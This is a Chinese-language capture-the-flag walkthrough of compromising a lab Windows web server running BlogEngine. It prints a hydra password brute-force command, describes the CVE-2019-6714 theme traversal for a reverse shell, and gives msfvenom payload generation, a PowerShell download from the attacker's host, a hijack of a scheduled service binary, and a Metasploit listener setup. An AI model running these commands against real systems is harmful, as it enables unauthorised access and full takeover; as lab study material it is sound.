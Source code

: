 ## hydra
首先需要找到要攻击的登录页面，并确定表单向 Web 服务器发出的请求类型。通常，Web 服务器发出两种类型的请求，一种是用于从 Web 服务器请求数据的 GET 请求，另一种是用于将数据发送到服务器的 POST 请求。

```
hydra -l admin -P /home/kali/下载/rockyou.txt 10.10.182.107 http-post-form "/Account/login.aspx:__VIEWSTATE=bHtBaxeGBDVWuciTbSdua413rA52xSgfkZOpp5pNtd5L%2BW7JJ3rvmGnQVBQ8WPa7K8F2frmzFWSruzLRe4eeOztkJmkDqgCe25QYJDTnYWAYtza%2FtAA1cpniPjfDU%2Fj6KEP5BAgqgEMcfM4RzcNjT2LOoXNpqlVLIhCalMEi0sd9N1Cg6OPXdUfSzSV0BSFtzjJf%2BHI5q%2B%2F3NMaqOgLCDDAwoXVpZ21o49k%2BzJO9lAgrX5Y4AnGS0zZNOAi2OBE0b%2BmrUFGeqVGH9k5gOjGRKSQ0MwmhrJvxMFscjYFKMUFpbqdyCmA7v9lWloXZu4Qmo6mBSXhX2QJJWt%2FKqloofGoP9DbGXhLVYooLTL2EQ8S%2B%2F8k2&__EVENTVALIDATION=ixozvy91Xs5g5EMUDPd8KdKFouaqL9lzCy75PtarrcKQrEOquCkd6LJit1G8QX5i8B17f088XJj%2BUKh5yGN4OJCIvhNU%2FgzXfSH8L1t%2FlVU7luLVvSYJR0J9mQW8ym7mHRBw0Erdw1AvDkRIoXqL14dMowAJOzseIIrMMdGp%2BQOf6N30&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:F=Login failed"
```

在这里我们需要f12找到网络中的请求包 将完整的request作为hydra需要的参数 要注意UserName=^USER^和Password=^PASS^需要改成^USER^和^PASS^ 不能是自己输入的参数

![image.png](https://s2.loli.net/2025/04/18/BJNz21SVRphGqCo.png)

![image.png](https://s2.loli.net/2025/04/18/sd9wpTcCQOqbWg7.png)

破解成功

## 漏洞攻击
接下来根据漏洞 攻击



CVE-2019-6714 下载cs文件之后需要把ip改成自己vpn分配的ip 修改完成之后将名字改为PostView.ascx

上传成功之后在靶机ip/?theme=../../App_Data/files就能反弹shell


![image.png](https://s2.loli.net/2025/04/18/RzSrhFnveKjBTfx.png)


![image.png](https://s2.loli.net/2025/04/18/t9MdyKXCgWpBQIh.png)

我们这里已经获得了shell 我们需要拓展一下 拓展到msf中 我们写一个msfvenom 用python传到靶机上 运行exe文件 就能获得msf的终端

## msf权限提升
用multi/handler来获得shell
![image.png](https://s2.loli.net/2025/04/18/QVh5xquJWUkMLnG.png)

![image.png](https://s2.loli.net/2025/04/18/gICMmUkhu3zjLfi.png)

这个问题有点意思 我是没接触过 学习学习一下思路


在meterpreter用了ps查看进程

用了winpea来直接扫描

发现一个WindowsScheduler
![image.png](https://s2.loli.net/2025/04/18/Be19fUNSyFtOHoL.png)

sc qc检查一下 也没啥收获 到他所在的路径看一下
![image.png](https://s2.loli.net/2025/04/18/PhLDlbp2x3MWG9w.png)

![image.png](https://s2.loli.net/2025/04/18/FX26SAUTHxu5aQt.png)

有个事件文件 检查一下这个文件

![image.png](https://s2.loli.net/2025/04/18/I3rMpbc5sOPQ1vX.png)

事件中有个message.exe 用的还是管理员权限 应该没毛病了

![image.png](https://s2.loli.net/2025/04/18/X5w18WvqVkdFHPs.png)

接下来是两个flag

利用异常服务及其对应的二进制文件进行提权。

有点东西了

后面的其中一个思路就是msfvenom重新创建一个Message.exe来替换掉原本的 就是替换掉原本有管理权限的exe

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.17.40.203 LPORT=6666 -e x86/shikata_ga_nai -f exe -o Message.exe
```

用powershell上传成功

```
powershell -c wget "http://10.17.40.203:8000/Message.exe" -outfile "Message1.exe"
```

![image.png](https://s2.loli.net/2025/04/18/rya1OslE9phSomT.png)

把原本的文件替换掉

```
mv Message.exe Message.exe.bak

mv Message1.exe Message.exe
```

替换完就可以run一下msf的反弹模块

```
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 10.17.40.203
set LPORT 6666
run
```

![image.png](https://s2.loli.net/2025/04/18/XG2ElbfTDveMCuy.png)
成功获得管理员权限

有管理员权限就能一下子获得两个flag